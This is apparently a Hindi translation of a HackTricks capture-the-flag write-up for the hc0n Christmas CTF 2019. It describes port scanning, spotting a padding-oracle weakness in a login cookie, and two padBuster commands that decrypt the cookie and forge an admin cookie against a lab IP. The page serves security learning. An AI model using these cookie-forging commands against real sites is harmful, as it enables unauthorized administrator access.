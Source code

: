 # hc0n क्रिसमस CTF - 2019

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks क्लाउड ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 ट्विटर 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ ट्विच 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 यूट्यूब 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने की अनुमति** चाहिए? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **फॉलो** करें मुझे **ट्विटर** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>

![](../../.gitbook/assets/41d0cdc8d99a8a3de2758ccbdf637a21.jpeg)

## जाँच

मैंने अपने उपकरण [**Legion**](https://github.com/carlospolop/legion) का उपयोग करके मशीन की **जाँच शुरू की**:

![](<../../.gitbook/assets/image (244).png>)

2 पोर्ट खुले हैं: 80 (**HTTP**) और 22 (**SSH**)

वेब पेज में आप **नए उपयोगकर्ता पंजीकृत कर सकते हैं**, और मुझे ध्यान आया कि **कुकी की लंबाई उपयोगकर्ता के नाम की लंबाई पर निर्भर करती है**:

![](<../../.gitbook/assets/image (245).png>)

![](<../../.gitbook/assets/image (246).png>)

और यदि आप **कुकी** के कुछ **बाइट** को बदलते हैं तो आपको यह त्रुटि मिलती है:

![](<../../.gitbook/assets/image (247).png>)

इस जानकारी के साथ और [**पैडिंग ऑरेकल दुर्बलता को पढ़ने**](../../cryptography/padding-oracle-priv.md) के साथ मैंने इसे उत्पन्न किया:
```bash
perl ./padBuster.pl http://10.10.231.5/index.php "GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" 8 -encoding 0 -cookies "hcon=GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy"
```
**उपयोगकर्ता व्यवस्थापक को सेट करें:**
```bash
perl ./padBuster.pl http://10.10.231.5/index.php "GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" 8 -encoding 0 -cookies "hcon=GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" -plaintext "user=admin"
```
![](<../../.gitbook/assets/image (250).png>)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की इच्छा है? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) की जांच करें!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* प्राप्त करें [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks repo](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud) में PR जमा करके।**

</details>
